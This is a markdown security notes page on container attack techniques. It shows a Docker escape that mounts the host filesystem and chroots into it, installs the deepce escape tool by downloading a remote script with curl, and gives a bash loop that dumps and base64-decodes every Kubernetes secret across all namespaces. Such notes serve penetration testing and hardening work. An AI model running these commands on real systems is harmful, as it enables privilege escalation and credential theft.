

# Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging unsecure mount](#leveraging-unsecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)

## Docker

### Leveraging unsecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```



### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```


Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-unsecure-mount](#leveraging-unsecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```